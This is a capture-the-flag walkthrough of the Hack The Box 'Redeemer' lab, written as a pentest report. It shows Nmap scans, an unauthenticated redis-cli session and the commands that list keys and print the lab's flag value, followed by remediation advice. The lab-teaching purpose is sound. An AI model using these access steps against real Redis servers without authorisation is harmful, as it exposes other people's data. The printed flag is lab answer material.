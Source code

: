 # HTB Starting Point Lab Walkthrough: Redeemer (Linux Box)

## Executive Summary

- **Lab Objective**: Enumerate and exploit a Redis service on the target machine to retrieve a flag, simulating unauthenticated database access.
- **Target IP**: 10.129.13.96
- **Key Findings**: Identified an open Redis 5.0.7 instance on port 6379 with no authentication, allowing full access to database contents, including a sensitive flag in database 0.
- **Impact**: In a real-world scenario, unauthenticated Redis access could lead to data exposure, modification, or malicious command execution, risking system integrity.
- **Recommendations**: Enable authentication, restrict network access to trusted hosts, and secure Redis configuration files.
- **Completion Date**: July 7, 2025
- **Tools Used**: Nmap, redis-cli (on Kali Linux)

## Methodology and Scope

This walkthrough follows a standard reconnaissance and exploitation process for the HTB Starting Point lab "Redeemer." The scope was limited to port scanning, Redis service enumeration, and data access on the provided target IP. No advanced exploitation or privilege escalation was required.

Steps were performed in a controlled lab environment using default Kali tools. Assumptions: Target is a Linux machine running Redis 5.0.7. Recent discussions on X and Redis security guidelines highlight common misconfigurations like unauthenticated access, relevant to this lab.

## Findings

### Finding 1: Open Port and Redis Service Identification

- **Description**: Redis, an in-memory key-value database, was found running on port 6379. A full port scan confirmed only one open TCP port.
- **Severity**: Informational (baseline enumeration).
- **Steps to Reproduce**:
    1. Perform a full port scan using Nmap:
        
        ```bash
        nmap -p- -T5 10.129.13.96
        ```
        
        **Flag Explanation**: `-p-` scans all 65,535 TCP ports; `-T5` sets maximum scan speed (less stealthy but faster).  
        Output:
        
        ```bash
        Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-07 19:24 EDT
        Warning: 10.129.13.96 giving up on port because retransmission cap hit (2).
        Nmap scan report for 10.129.13.96
        Host is up (0.020s latency).
        Not shown: 63867 closed tcp ports (reset), 1667 filtered tcp ports (no-response)
        PORT     STATE SERVICE
        6379/tcp open  redis
        Nmap done: 1 IP address (1 host up) scanned in 20.11 seconds
        ```
        
    2. Confirm service version on port 6379:
        
        ```bash
        nmap -sV -p 6379 10.129.13.96
        ```
        
        **Flag Explanation**: `-sV` enables version detection; `-p 6379` targets the specific port.  
        Output:
        
        ```bash
        Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-07 19:37 EDT
        Nmap scan report for 10.129.13.96
        Host is up (0.020s latency).
        PORT     STATE SERVICE VERSION
        6379/tcp open  redis   Redis key-value store 5.0.7
        Nmap done: 1 IP address (1 host up) scanned in 6.34 seconds
        ```
        
- **Impact**: Confirms Redis is active and identifies the version, enabling targeted enumeration.
- **Evidence**: Nmap scan results above.
- **Remediation**: N/A (informational).

### Finding 2: Unauthenticated Redis Access

- **Description**: The Redis 5.0.7 server allows unauthenticated connections, granting full access to database 0, which contains four keys.
- **Severity**: Critical (unauthenticated database access).
- **Steps to Reproduce**:
    1. Connect to the Redis server using redis-cli:
        
        ```bash
        redis-cli -h 10.129.13.96 -p 6379
        ```
        
        **Flag Explanation**: `-h 10.129.13.96` specifies the target hostname; `-p 6379` specifies the port.  
        Output:
        
        ```bash
        10.129.13.96:6379> 
        ```
        
    2. Select database 0 and check its size:
        
        ```bash
        select 0
        dbsize
        ```
        
        Output:
        
        ```bash
        OK
        (integer) 4
        ```
        
    3. List all keys in the database:
        
        ```bash
        keys *
        ```
        
        Output:
        
        ```bash
        1) "numb"
        2) "flag"
        3) "temp"
        4) "stor"
        ```
        
- **Impact**: Unauthenticated access allows full read/write control over the database, risking data exposure or manipulation.
- **Evidence**: Redis-cli output above.
- **Remediation**: Enable authentication with the `requirepass` directive in `redis.conf`; restrict access to trusted IPs.

### Finding 3: Data Exfiltration from Redis Database

- **Description**: Retrieved a sensitive flag from the `flag` key in database 0 using the `get` command.
- **Severity**: Critical (successful data exfiltration).
- **Steps to Reproduce**:
    1. Connect to Redis and select database 0:
        
        ```bash
        redis-cli -h 10.129.13.96 -p 6379
        select 0
        ```
        
        **Flag Explanation**: `-h 10.129.13.96` specifies the target hostname; `-p 6379` specifies the port.  
        Output:
        
        ```bash
        OK
        ```
        
    2. List all keys:
        
        ```bash
        keys *
        ```
        
        Output:
        
        ```bash
        1) "numb"
        2) "flag"
        3) "temp"
        4) "stor"
        ```
        
    3. Retrieve the flag value:
        
        ```bash
        get "flag"
        ```
        
        Output:
        
        ```bash
        "03e1d2b376c37ab3f5319922053953eb"
        ```
        
- **Impact**: Access to sensitive data demonstrates a real-world data breach scenario, potentially exposing critical information.
- **Evidence**: Command outputs and flag value above.
- **Remediation**: Remove sensitive data from Redis; implement access controls and encryption for stored values.

## Recommendations

- Enable authentication in Redis by setting `requirepass` in `redis.conf` and using strong passwords.
- Restrict network access to port 6379 using firewall rules, allowing only trusted hosts.
- Regularly scan for exposed Redis instances using tools like Nmap or Redis-specific scripts (e.g., `redis-info.nse`).
- For labs like this, explore Redis exploitation with tools like Metasploit’s `redis_server` module to test for misconfigurations.

## Appendices

- **Raw Notes/Logs**: (Optional—attach full session logs if sharing.)
- **Screenshots**: (Add here if available, e.g., terminal captures.)
- **Key Takeaway**: Redis misconfigurations, such as unauthenticated access, are common vulnerabilities. Checking `redis.conf` for `requirepass` and network exposure is critical, as noted in recent X posts and Redis security guidelines.